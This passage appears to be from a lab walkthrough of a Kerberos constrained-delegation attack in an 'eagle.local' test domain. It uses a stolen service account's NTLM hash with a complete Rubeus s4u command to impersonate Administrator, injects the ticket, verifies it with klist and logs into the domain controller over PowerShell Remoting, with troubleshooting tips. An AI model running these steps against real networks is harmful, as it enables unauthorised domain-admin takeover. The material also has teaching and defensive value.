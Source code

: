 This gives us:

`rc4_hmac : FCDC65703DD2B0BD789977F1F3ABCDEF`

That’s the NTLM hash we’ll use.

* * *

## 4\. Step Three: Ask for a Fake Ticket

Now we use **Rubeus** to request a Kerberos ticket pretending to be Administrator.

`PS> .\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3ABCDEF /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt`

Explanation:

- `/user:webservice` → our stolen account
    
- `/rc4:…` → its password hash
    
- `/impersonateuser:Administrator` → who we want to pretend to be
    
- `/msdsspn:"http/dc1"` → the service we’re allowed to use
    
- `/ptt` → inject the ticket into memory (so Windows thinks we already logged in)
    

If successful, Rubeus prints “Ticket successfully imported!”.

* * *

## 5\. Step Four: Check if the Ticket is There

We list Kerberos tickets with `klist`: `PS> klist`

We should see: `Client: Administrator@EAGLE.LOCALServer: http/dc1@EAGLE.LOCAL`

That means we’re now holding a Kerberos ticket as **Administrator**.

* * *

## 6\. Step Five: Use the Ticket to Log Into DC1

We use PowerShell Remoting to hop onto the Domain Controller: `PS> Enter-PSSession dc1`

Inside the session: `[dc1]: PS> hostnameDC1[dc1]: PS> whoamieagle\administrator`

Boom. We are Administrator on the Domain Controller.

* * *

## 7\. Troubleshooting

- If it doesn’t work, run `klist purge` to clear tickets and try again.
    
- You can also request tickets for other services (like LDAP, CIFS) using `/altservice`.
    

* * *
